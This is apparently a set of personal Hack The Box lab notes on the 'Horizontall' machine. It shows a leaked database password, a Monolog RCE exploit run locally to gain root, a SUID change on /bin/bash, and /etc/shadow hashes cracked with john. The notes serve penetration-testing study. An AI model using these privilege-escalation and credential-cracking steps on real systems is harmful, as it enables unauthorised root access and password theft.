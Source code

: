 now let's run linPEAS to know what's going on on this machine 
/usr/lib/node_modules/npm/node_modules/npm-lifecycle/node-gyp-bin:/opt/strapi/myapi/node_modules/.bin:/opt/strapi/myapi/node_modules/.bin:/opt/str
api/node_modules/.bin:/opt/node_modules/.bin:/node_modules/.bin:/usr/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/
usr/local/games:/snap/bin
New path exported: /usr/lib/node_modules/npm/node_modules/npm-lifecycle/node-gyp-bin:/opt/strapi/myapi/node_modules/.bin:/opt/strapi/myapi/node_mo
dules/.bin:/opt/strapi
developer:x:1000:1000:hackthebox:/home/developer:/bin/bash
root:x:0:0:root:/root:/bin/bash
strapi:x:1001:1001::/opt/strapi:/bin/sh

in /opt/strapi/myapi/config/environments/production/database.json
 we found something interesting developer [[00 Progress/Boxes/HTB/Linux/Horizontall/04 Creds]]
  "username": "developer",                                         │
  "password": "#J!:F9Zt2u" 
  var/log/nginx/access.log 
  [[CVEs]]
  └─$ ./exploit.py http://localhost:8888 Monolog/RCE1 id                                                                                            
  AND 
  uid=0(root) gid=0(root) groups=0(root)
AYY
we got it!!


./exploit.py http://localhost:8888 Monolog/RCE1 chmod\ 4777\ /bin/bash
using \ to make it count the space as character!
 or we could've just got /etc/shadow and crack the passwords with /etc/passwd 
so what happened is we ran the script 
and we did something cool instead of just getting the flag on our machine we changed the perm of /bin/bash to suid! 
-rwsrwxrwx 1 root root 1113504 Jun  6  2019 /bin/bash                   
strapi@horizontall:~$ ./bin/bash                                         
bash: ./bin/bash: No such file or directory                          
strapi@horizontall:~$ cd /bin/                                        
strapi@horizontall:/bin$ ls -la bash                                     
-rwsrwxrwx 1 root root 1113504 Jun  6  2019 bash               
strapi@horizontall:/bin$ bash -p                                   
bash-4.4# whoami                                                     
root             



2nd method



developer:$6$XWN/h2.z$Y6PfR1h7vDa5Hu8iHl4wo5PkWe/HWqdmDdWaCECJjvta71eNYMf9BhHCHiQ48c9FMlP4Srv/Dp6LtcbjrcVW40:18779:0:99999:7:::                   
strapi:$6$a9mzQsIs$YENaG2S/H/9aqnHRl.6Qg68lCYU9/nDxvpV0xYOn6seH.JSGtU6zqu0OhR6qy8bATowftM4qBJ2ZA5x9EDSUR.:18782:0:99999:7:::
root:$6$rGxQBZV9$SbzCXDzp1MEx7xxXYuV5voXCy4k9OdyCDbyJcWuETBujfMrpfVtTXjbx82bTNlPK6Ayg8SqKMYgVlYukVOKJz1:18836:0:99999:7:::                        

developer:x:1000:1000:hackthebox:/home/developer:/bin/bash
strapi:x:1001:1001::/opt/strapi:/bin/sh
root:x:0:0:root:/root:/bin/bash

john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt pashadow 
